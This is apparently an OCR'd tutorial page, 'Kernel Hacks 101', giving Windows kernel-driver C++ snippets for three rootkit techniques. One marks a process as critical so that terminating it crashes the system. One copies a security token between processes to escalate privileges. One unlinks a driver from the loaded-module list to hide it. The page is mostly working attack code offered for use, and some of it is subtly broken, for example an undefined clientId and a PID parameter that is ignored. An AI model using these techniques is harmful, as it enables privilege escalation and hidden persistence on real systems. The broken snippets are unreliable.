 ---

# Kernel Hacks 101: A Quick Guide

Here, we're diving into how to make your processes essential, copy privileges, and hide drivers.

## Required Libraries

Before you start coding, make sure to include the necessary libraries for kernel-level programming in Windows:

### Libraries to Import

- **`Windows.h`**: The main header for accessing Windows API functions.
- **`ntddk.h`**: Essential for writing device drivers and accessing kernel-mode functions.
- **`ntstatus.h`**: Contains definitions for NTSTATUS codes, useful for error handling.
- **`wdm.h`**: Provides access to Windows Driver Model functions and structures.

### Importing Libraries

Here’s how you import these libraries in your driver code:

```cpp
#include <ntddk.h>      // Core DDK functions
#include <ntstatus.h>   // NTSTATUS definitions
#include <wdm.h>        // WDM functions and structures
#include <windows.h>    // Windows API functions
```

## Make a Process Essential

### Objective

You want to make a process essential so that if it gets terminated, the system triggers a BSOD (Blue Screen of Death). This is done by using the `ZwSetInformationProcess` function.

### Function Explanation: `ZwSetInformationProcess`

- **Parameters**:
  - `hProcess`: A handle to the process you want to modify (obtained via `ZwOpenProcess`).
  - `ProcessBreakOnTermination`: An information class that specifies the information to set (this makes the process critical).
  - `BreakOnTermination`: A pointer to the value you want to set (typically `1` to enable the feature).
  - `sizeof(BreakOnTermination)`: Size of the data being sent.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS MakeProcessEssential(DWORD PID) {
    NTSTATUS status;
    HANDLE hProcess;
    ULONG BreakOnTermination = 1;

    // Open the process to get a handle
    status = ZwOpenProcess(&hProcess, PROCESS_SET_INFORMATION, &clientId);
    // Check if opening was successful, then set the information
    if (NT_SUCCESS(status)) {
        status = ZwSetInformationProcess(hProcess, ProcessBreakOnTermination, &BreakOnTermination, sizeof(BreakOnTermination));
        ZwClose(hProcess);
    }
    return status; // Return the status of the operation
}
```

### Explanation of Code

1. **Opening the Process**: Use `ZwOpenProcess` to get a handle to the process specified by its PID.
2. **Setting the Flag**: If the handle is successfully obtained, `ZwSetInformationProcess` is called to set the "BreakOnTermination" flag.
3. **Handle Cleanup**: Always close the process handle to avoid leaks.

## Copy Privileges from One Process to Another

### Objective

You want to elevate the privileges of a target process by copying them from a source process.

### Function Explanation: `PsLookupProcessByProcessId`

- **Parameters**:
  - `ProcessId`: The ID of the process you want to look up.
  - `Process**`: A pointer that will receive the process object.

- **Returns**: An NTSTATUS code indicating success or failure.

### Sample Code Snippet

```cpp
NTSTATUS CopyPrivileges(ULONG srcPid, ULONG destPid) {
    PEPROCESS srcProcess, destProcess;

    // Lookup the source process by its PID
    if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(srcPid), &srcProcess))) {
        // Lookup the destination process
        if (NT_SUCCESS(PsLookupProcessByProcessId(ULongToHandle(destPid), &destProcess))) {
            // Copy the security token from source to destination
            *(UINT64*)((UINT64)destProcess + TOKEN_OFFSET) = *(UINT64*)((UINT64)srcProcess + TOKEN_OFFSET);
        }
    }
    return STATUS_SUCCESS; // Return success after copying
}
```

### Explanation of Code

1. **Process Lookup**: Use `PsLookupProcessByProcessId` to obtain pointers to both the source and destination processes.
2. **Copying the Token**: The security token from the source process is copied to the destination process, effectively elevating its privileges.

## Hide a Driver

### Objective

You want to make a driver invisible in the system's loaded drivers list.

### Function Explanation: Adjusting the Load Order List

- **Function**: Modify the linked list that maintains the loaded drivers.
- **Parameters**: 
  - `DriverObject`: A pointer to the driver object you want to hide.

### Sample Code Snippet

```cpp
VOID HideDriver(PDRIVER_OBJECT DriverObject) {
    PLDR_DATA_TABLE_ENTRY entry = (PLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
    
    // Adjust the linked list to hide the driver
    entry->InLoadOrderLinks.Blink->Flink = entry->InLoadOrderLinks.Flink;
    entry->InLoadOrderLinks.Flink->Blink = entry->InLoadOrderLinks.Blink;
}
```

### Explanation of Code

1. **Get Driver Entry**: Access the driver’s data table entry through the `DriverObject`.
2. **Modify Links**: Adjust the pointers in the linked list to effectively remove the driver from the list of loaded drivers, making it hidden.

## Wrapping Up

That’s a wrap! Now you have a better understanding of how to make a process essential, copy privileges, and hide a driver. Just remember:

- **Always test in a safe environment** (like a VM).
- **Be aware of the legal implications** of kernel-level programming.

## Resources

[for token offset](https://github.com/XaFF-XaFF/Kernel-Process-Hollowing)
